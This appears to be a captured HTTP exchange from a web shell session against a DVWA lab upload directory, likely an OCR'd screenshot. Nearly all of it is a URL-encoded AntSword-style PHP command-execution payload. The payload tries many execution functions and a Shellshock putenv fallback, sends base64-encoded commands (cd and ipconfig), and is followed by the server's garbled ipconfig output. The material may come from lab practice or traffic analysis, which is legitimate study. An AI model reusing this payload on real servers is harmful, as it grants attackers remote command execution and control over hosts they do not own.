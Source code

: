 ```
Content-Length: 4165
Connection: close

1=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%22f3a67%22.%22c7bb61%22%3Becho%20%40asenc(%24output)%3Becho%20%2271fb%22.%225b2d%22%3B%7Dob_start()%3Btry%7B%24p%3Dbase64_decode(substr(%24_POST%5B%22lb479cecbced54%22%5D%2C2))%3B%24s%3Dbase64_decode(substr(%24_POST%5B%22bbe7f1c781cd75%22%5D%2C2))%3B%24envstr%3D%40base64_decode(substr(%24_POST%5B%22mbb56c8feb82f1%22%5D%2C2))%3B%24d%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24c%3Dsubstr(%24d%2C0%2C1)%3D%3D%22%2F%22%3F%22-c%20%5C%22%7B%24s%7D%5C%22%22%3A%22%2Fc%20%5C%22%7B%24s%7D%5C%22%22%3Bif(substr(%24d%2C0%2C1)%3D%3D%22%2F%22)%7B%40putenv(%22PATH%3D%22.getenv(%22PATH%22).%22%3A%2Fusr%2Flocal%2Fsbin%3A%2Fusr%2Flocal%2Fbin%3A%2Fusr%2Fsbin%3A%2Fusr%2Fbin%3A%2Fsbin%3A%2Fbin%22)%3B%7Delse%7B%40putenv(%22PATH%3D%22.getenv(%22PATH%22).%22%3BC%3A%2FWindows%2Fsystem32%3BC%3A%2FWindows%2FSysWOW64%3BC%3A%2FWindows%3BC%3A%2FWindows%2FSystem32%2FWindowsPowerShell%2Fv1.0%2F%3B%22)%3B%7Dif(!empty(%24envstr))%7B%24envarr%3Dexplode(%22%7C%7C%7Casline%7C%7C%7C%22%2C%20%24envstr)%3Bforeach(%24envarr%20as%20%24v)%20%7Bif%20(!empty(%24v))%20%7B%40putenv(str_replace(%22%7C%7C%7Caskey%7C%7C%7C%22%2C%20%22%3D%22%2C%20%24v))%3B%7D%7D%7D%24r%3D%22%7B%24p%7D%20%7B%24c%7D%22%3Bfunction%20fe(%24f)%7B%24d%3Dexplode(%22%2C%22%2C%40ini_get(%22disable_functions%22))%3Bif(empty(%24d))%7B%24d%3Darray()%3B%7Delse%7B%24d%3Darray_map('trim'%2Carray_map('strtolower'%2C%24d))%3B%7Dreturn(function_exists(%24f)%26%26is_callable(%24f)%26%26!in_array(%24f%2C%24d))%3B%7D%3Bfunction%20runshellshock(%24d%2C%20%24c)%20%7Bif%20(substr(%24d%2C%200%2C%201)%20%3D%3D%20%22%2F%22%20%26%26%20fe('putenv')%20%26%26%20(fe('error_log')%20%7C%7C%20fe('mail')))%20%7Bif%20(strstr(readlink(%22%2Fbin%2Fsh%22)%2C%20%22bash%22)%20!%3D%20FALSE)%20%7B%24tmp%20%3D%20tempnam(sys_get_temp_dir()%2C%20'as')%3Bputenv(%22PHP_LOL%3D()%20%7B%20x%3B%20%7D%3B%20%24c%20%3E%24tmp%202%3E%261%22)%3Bif%20(fe('error_log'))%20%7Berror_log(%22a%22%2C%201)%3B%7D%20else%20%7Bmail(%22a%40127.0.0.1%22%2C%20%22%22%2C%20%22%22%2C%20%22-bv%22)%3B%7D%7D%20else%20%7Breturn%20False%3B%7D%24output%20%3D%20%40file_get_contents(%24tmp)%3B%40unlink(%24tmp)%3Bif%20(%24output%20!%3D%20%22%22)%20%7Bprint(%24output)%3Breturn%20True%3B%7D%7Dreturn%20False%3B%7D%3Bfunction%20runcmd(%24c)%7B%24ret%3D0%3B%24d%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3Bif(fe('system'))%7B%40system(%24c%2C%24ret)%3B%7Delseif(fe('passthru'))%7B%40passthru(%24c%2C%24ret)%3B%7Delseif(fe('shell_exec'))%7Bprint(%40shell_exec(%24c))%3B%7Delseif(fe('exec'))%7B%40exec(%24c%2C%24o%2C%24ret)%3Bprint(join(%22%0A%22%2C%24o))%3B%7Delseif(fe('popen'))%7B%24fp%3D%40popen(%24c%2C'r')%3Bwhile(!%40feof(%24fp))%7Bprint(%40fgets(%24fp%2C2048))%3B%7D%40pclose(%24fp)%3B%7Delseif(fe('proc_open'))%7B%24p%20%3D%20%40proc_open(%24c%2C%20array(1%20%3D%3E%20array('pipe'%2C%20'w')%2C%202%20%3D%3E%20array('pipe'%2C%20'w'))%2C%20%24io)%3Bwhile(!%40feof(%24io%5B1%5D))%7Bprint(%40fgets(%24io%5B1%5D%2C2048))%3B%7Dwhile(!%40feof(%24io%5B2%5D))%7Bprint(%40fgets(%24io%5B2%5D%2C2048))%3B%7D%40fclose(%24io%5B1%5D)%3B%40fclose(%24io%5B2%5D)%3B%40proc_close(%24p)%3B%7Delseif(fe('antsystem'))%7B%40antsystem(%24c)%3B%7Delseif(runshellshock(%24d%2C%20%24c))%20%7Breturn%20%24ret%3B%7Delseif(substr(%24d%2C0%2C1)!%3D%22%2F%22%20%26%26%20%40class_exists(%22COM%22))%7B%24w%3Dnew%20COM('WScript.shell')%3B%24e%3D%24w-%3Eexec(%24c)%3B%24so%3D%24e-%3EStdOut()%3B%24ret.%3D%24so-%3EReadAll()%3B%24se%3D%24e-%3EStdErr()%3B%24ret.%3D%24se-%3EReadAll()%3Bprint(%24ret)%3B%7Delse%7B%24ret%20%3D%20127%3B%7Dreturn%20%24ret%3B%7D%3B%24ret%3D%40runcmd(%24r.%22%202%3E%261%22)%3Bprint%20(%24ret!%3D0)%3F%22ret%3D%7B%24ret%7D%22%3A%22%22%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B&bbe7f1c781cd75=0KY2QgL2QgIkM6XFxVc2Vyc1xcbXlzdGljYWxcXERlc2t0b3BcXHBocHN0dWR5XFxwaHBzdHVkeV9wcm9cXFdXV1xcRFZXQVxcaGFja2FibGVcXHVwbG9hZHMiJmlwY29uZmlnJmVjaG8gW1NdJmNkJmVjaG8gW0Vd&lb479cecbced54=LpY21k&mbb56c8feb82f1=BjHTTP/1.1 200 OK
Date: Fri, 01 Dec 2023 03:25:12 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/5.3.29
Connection: close
Transfer-Encoding: chunked
Content-Type: text/html

123f3a67c7bb61
Windows IP ....


............ Bluetooth ........:

   ........  . . . . . . . . . . . . : ..........
   .......... DNS .... . . . . . . . : 

............ ........:

```